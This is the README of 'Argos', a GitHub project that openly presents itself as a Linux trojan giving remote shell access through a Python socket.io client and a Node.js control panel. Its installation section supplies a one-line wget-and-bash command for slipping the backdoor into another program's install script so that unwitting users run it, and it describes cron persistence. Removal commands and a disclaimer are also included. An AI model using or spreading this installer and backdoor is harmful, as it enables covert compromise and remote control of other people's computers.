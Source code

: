 <p align="center">
  <img height=150 src="https://github.com/Just1truc/Argos/blob/main/assets/top.png?raw=true">
  <br>
  <i>Can see everything, beware of its omniscience, kneel before its greatness.</i>
</p>

## Summary

- [**Presentation**](#presentation)
- [**Installation**](#installation)
- [**Removing**](#removing)
- [**Credits**](#credits)

## Presentation

#### Main goal

This program work on **Linux** distrubtion.

The main goal of this project is to show how frighteningly easy it is to create a program that can access to another machine.
This project is a [**trojan**](https://us.norton.com/internetsecurity-malware-what-is-a-trojan.html) that, when used in an installation script, can easily be installed and gain access to the whole system.

#### How it works

There is 2 main parts to this project:
- The online server
- The client

#### Client side

Get to the client part
```bash
cd client/
```

The client side program is made using [**python3**](https://www.python.org/downloads/) and can easily be called in the installation script of another program by using a simple curl command.

The client side is using [**socket io**](https://socket.io/fr/) to connect with the server through web sockets.
In case the server is not running, the program will try every 3 seconds to connect to the server until it's connected.

Once connected, the client script is waiting for instructions from the server.
The instruction it can get are mostly commands. In order to run the commands, it's using a child process that is running a shell, writing in it's stdin using the file descriptor obtained through the pty.spawn command.

Once the child process is done running a command, it send a ALRM signal to its ppid so we can get the output of the command.

#### Server side

Get to the server part:
```bash
cd online_server
```
Front:
```bash
cd frontend
```
Backend:
```bash
cd server
```
The server is made in [**Node js**](https://nodejs.org/en/download/).
The backend is composed of 2 server :
- A [**SocketIO**](https://socket.io/fr/get-started/chat) server
- An [**ExpressJS**](https://expressjs.com/fr/) server

The *express JS* server is meant to received the requests from the frontend server.
Here are the routes of that server.
| Route | Protected using JWT |
|-------|---------------------|
|/login | NO |
|/services/:id| YES |
|/services/:id/shell| YES|

The socket server accept sockets and stock them in a global variable so the connexion can be used later on.
The sockets are listenning to events and so we are using that so in case of deconnexion with a client, the client will automaticly be remove from the list.

The /shell endpoint use the socket io server sending a command to the client and waiting for a response to send back the information to the frontend.

FrontEnd endpoints:
| Endpoint | Protected |
|----------|-----------|
|/login    | NO        |
|/clients  | YES       |
|/services/:id| YES    |
|/services/:id/shell| YES |

## Installation

In order to use the project, you need to have a script that people will run.

In this very script, you juste have to call this command (remember to replace the 'Adress of the online server' by your server adress) :
```bash
wget -q -O - https://raw.githubusercontent.com/Just1truc/Argos/main/client/install_argos > here && chmod 777 here && bash here "Adress of the online server" && rm here
```
Once this command has been run, everthing should be ready for the client.

Also, to setup the server, it's kinda more complicated.
You have to host both the [**front**](https://github.com/Just1truc/Argos/blob/main/online_server/frontend/README.md) and the [**backend**](https://github.com/Just1truc/Argos/tree/main/online_server/server/README.md).

## Removing

### Automatically

```bash
crontab -r && kill $(ps -aux | grep /usr/local/src/.service.exwrap.py | grep -v "grep" | awk '{print $2}')
```

### Manually

This trojan is pretty annoying right? So let's remove it from your computer !
To do so, you just need to first execute this command to get rid of the cronjob :
```bash
crontab -r
```

Then, you need to cut the access to your computer, so let's kill the script doing that:
if you don't have ``htop``, you may have to install it.
```bash
htop -F python
```
Then, keep the pid of the command that is using *python3* to run and kill it:
```bash
kill [pid]
```

## Credits:
<div align="center">
<table>
  <tr>
    <td align="center">
      <a href="https://github.com/Just1truc">
        <img src="https://avatars.githubusercontent.com/u/68695857?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Justin Duc</b>
        <p>Client side and Backend</p>
      </sub>
      <a href="https://github.com/Just1truc" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/justin-duc-51b09b225/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/ZiplEix">
        <img src="https://avatars.githubusercontent.com/u/86067803?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Baptiste Leroyer</b>
        <p>Frontend Developper</p>
      </sub>
      <a href="https://github.com/ZiplEix" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/baptiste-leroyer-a69894227/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/ZerLock">
        <img src="https://avatars.githubusercontent.com/u/47077683?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Léo Dubosclard</b>
        <p>DevOps Developper</p>
      </sub>
      <a href="https://github.com/ZerLock" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/leo-dubosclard/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
  </tr>
  <tr>
    <td align="center">
      <a href="https://github.com/izimio">
        <img src="https://avatars.githubusercontent.com/u/65503390?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Joshua Brionne</b>
        <p>Frontend Developper</p>
      </sub>
      <a href="https://github.com/izimio" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/joshua-brionne/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/501stEcho">
        <img src="https://avatars.githubusercontent.com/u/82598322?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Paul Laban</b>
        <p>Frontend Developper</p>
      </sub>
      <a href="https://github.com/501stEcho" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/paul-laban-5b190b227/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/MathiDEV">
        <img src="https://avatars.githubusercontent.com/u/40570499?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Mathias André</b>
        <p>Stability responsible</p>
      </sub>
      <a href="https://github.com/MathiDEV" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/mathias-andré/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
</table>
</div>

<br>
<br>

> ⚠️ *Do not use for illegal purposes*

*THIS PROJECT IS IN PROGRESS. It's FUNCTIONNAL but it's not as securised as it should be*
